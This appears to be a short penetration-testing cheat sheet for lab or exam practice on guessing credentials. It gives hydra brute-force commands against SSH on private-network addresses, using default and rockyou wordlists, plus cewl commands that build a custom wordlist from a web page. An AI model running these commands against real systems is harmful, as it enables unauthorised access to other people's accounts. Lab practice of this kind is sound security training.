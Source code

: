 1. If there is SSH/FTP/SMB try for common passwords 
    - If no usernames try defaults 
```bash
sudo hydra -L /home/kali/commoncreds/user.txt -P /home/kali/commoncreds/pass.txt ssh://192.168.220.39
```

2. If there is SSH/FTP/smb thast needs access and you have usernames(eg:patrick), try below two
🔴 Pay attention to Nmap **Auth-Owners** or enumerate port 113
```
patrick:patrick
```

```bash
sudo hydra -l patrick -P /home/kali/commoncreds/pass.txt ssh://192.168.220.39
```

```bash
sudo hydra -l patrick -P /usr/share/wordlists/rockyou.txt ssh://192.168.220.39
```

3. Last resort
```bash
cewl http://192.168.233.61:8081/ | grep -v CeWL > custom-wordlist.txt
cewl --lowercase http://192.168.233.61:8081/ | grep -v CeWL  >> custom-wordlist.txt
```

```bash
sudo hydra -L custom-wordlist.txt -P custom-wordlist.txt ssh://192.168.220.39
```


5.  If you got an access key or password and it doesnt work, try decoding it.